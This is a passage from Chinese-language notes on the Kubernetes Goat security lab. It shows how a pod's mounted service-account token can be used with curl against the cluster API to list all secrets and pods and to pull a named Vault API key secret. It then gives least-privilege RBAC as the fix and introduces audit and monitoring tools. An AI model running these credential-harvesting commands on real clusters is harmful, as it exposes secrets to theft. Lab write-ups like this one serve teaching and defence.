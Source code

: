 所以我们可以在 pod 里执行 curl 操作，获取相关信息

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
export CACERT=${SERVICEACCOUNT}/ca.crt
# 获取API
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
# 获取所有secret
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
# 获取该namespace下的secret
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
# 获取所有pod
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
# 获取k8svaultapikey的secret
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey
```

### Solution

RBAC 赋权需要最小化

## KubeAudit - Audit Kubernetes clusters

[kubeaudit](https://github.com/Shopify/kubeaudit)检测集群问题。

- run as non-root
- use a read-only root filesystem
- drop scary capabilities, don't add new ones
- don't run privileged

## Falco - Runtime security monitoring & detection

[falco](https://falco.org/)，是一个运行时安全监控和检测工具。

## Popeye - A Kubernetes cluster sanitizer

[Popeye](https://github.com/derailed/popeye)，A Kubernetes cluster resource sanitizer

## Secure network boundaries using NSP

![NSP](https://madhuakula.com/kubernetes-goat/assets/images/scenario-20-67e927c0a31930caec4d269b15e157db.png)

### Problem
